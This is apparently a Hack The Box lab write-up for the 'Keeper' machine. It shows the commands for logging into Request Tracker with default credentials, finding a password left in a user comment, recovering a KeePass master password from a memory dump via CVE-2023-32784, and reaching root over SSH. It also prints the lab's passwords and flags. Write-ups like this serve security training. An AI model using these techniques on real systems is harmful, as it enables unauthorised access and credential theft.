# Keeper — Write-Up

| Field | Details |
|---|---|
| **Machine** | [Keeper](https://app.hackthebox.com/machines/Keeper) |
| **Platform** | [Hack The Box](https://hackthebox.com/) |
| **Operating System** | Linux (Ubuntu 22.04) |
| **Difficulty** | Easy |
| **Flags** | 2 (user + root) |

---

## Reconnaissance

### Port Enumeration

```bash
nmap -p- -sCV -T5 10.129.229.41 -oN Keeper
```



| Port | Service | Version |
|---|---|---|
| 22/tcp | SSH | OpenSSH 8.9p1 Ubuntu |
| 80/tcp | HTTP | nginx 1.18.0 (Ubuntu) |

---

## Web Enumeration

Accessing port 80 redirects to `tickets.keeper.htb/rt/`:



For the domain to resolve correctly, the necessary entries are added to `/etc/hosts`:

```bash
echo "10.129.229.41  keeper.htb tickets.keeper.htb" >> /etc/hosts
```



The portal is now accessible and turns out to be a **Request Tracker (RT)** instance version 4.4.4, an open-source support ticket management system:



### Default Credentials

Default credentials for Request Tracker are looked up:



RT's default credentials are `root / password`. These work on the login page and grant access to the administration panel:



---

## Initial Access — Credential Found in User Comment

Inside the RT panel, navigating to *Admin → Users* reveals the system users:



Two users exist: `root` and `lnorgaard` (Lise Nørgaard). Opening `lnorgaard`'s profile:



The **Comments** field contains a note left by the administrator:

```
New user. Initial password set to Welcome2023!
```

This password is used to connect via SSH:

```bash
ssh lnorgaard@10.129.229.41
```



Successful login to **Ubuntu 22.04 LTS**.

### User Flag

```bash
cat user.txt
```

Flag: **`47dcf69e1fef5fb9b922fddcba6982ba`**

---

## Privilege Escalation

### Sudo Enumeration

```bash
sudo -l
```



User `lnorgaard` has no sudo permissions. However, listing the home directory reveals interesting files:

```bash
ls
# KeePassDumpFull.dmp  passcodes.kdbx  RT30000.zip  user.txt
```



### Transferring Files to Kali

The files are downloaded to the attacking machine for analysis:

```bash
scp lnorgaard@10.129.229.41:/home/lnorgaard/RT30000.zip .
unzip RT30000.zip
```





The ZIP contains:
- `KeePassDumpFull.dmp` — memory dump of the KeePass process
- `passcodes.kdbx` — encrypted KeePass database

### Master Password Extraction — CVE-2023-32784

**KeePass 2.x** has a vulnerability (CVE-2023-32784) that allows recovering almost the entire master password from a process memory dump. KeePass leaves plaintext traces of the password in memory during keyboard input, making it possible to extract it forensically.

The exploit tool is cloned:

```bash
git clone https://github.com/vdohney/keepass-password-dumper.git
```



Run against the memory dump:

```bash
dotnet run ../KeePassDumpFull.dmp
```



The tool recovers the password with the first character unknown:

```
●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

The fragment `dgrød med fløde` is enough to search on Google:


Google corrects and suggests **rødgrød med fløde**, a traditional Danish dessert. This is the complete master password.

### Opening the KeePass Database

The database is opened using `kpcli` with the recovered password:

```bash
kpcli
kpcli:/> open passcodes.kdbx
# Provide the master password: rødgrød med fløde
```



Navigating through the database to find the relevant entry:

```
kpcli:/> cd passcodes/Network/
kpcli:/passcodes/Network> show 0 -f
```



The `keeper.htb (Ticketing Server)` entry contains:

| Field | Value |
|---|---|
| **Username** | `root` |
| **Password** | `F4><3K0nd!` |
| **Notes** | SSH private key in PuTTY format (`.ppk`) |

### Converting the PuTTY Key to OpenSSH Format

The PuTTY private key is copied from the notes and saved to a file `putty-key.ppk`:



It is converted to OpenSSH format using `puttygen`:

```bash
puttygen putty-key.ppk -O private-openssh -o id_rsa
```


Correct permissions are set on the file:

```bash
chmod 600 id_rsa
```



### SSH Connection as Root

```bash
ssh root@10.129.229.41 -i id_rsa
```



Successful login as **root**.

### Root Flag

```bash
ls
cat root.txt
```



Flag: **`2e00cb722cb6405ed49a371f10aa4d62`**

---

## Summary

| Phase | Technique | Tool |
|---|---|---|
| Enumeration | Port Scan | `nmap` |
| Web | Virtual host resolution | `/etc/hosts` |
| Panel access | Default credentials (RT) | Browser |
| User credential | Password in RT user profile comment | Browser |
| Initial access | SSH with found credential | `ssh` |
| Forensic analysis | KeePass memory dump (CVE-2023-32784) | `keepass-password-dumper` |
| KeePass access | Master password recovered from dump | `kpcli` |
| Private key | PuTTY → OpenSSH conversion | `puttygen` |
| Privilege escalation | SSH as root with private key | `ssh -i id_rsa` |
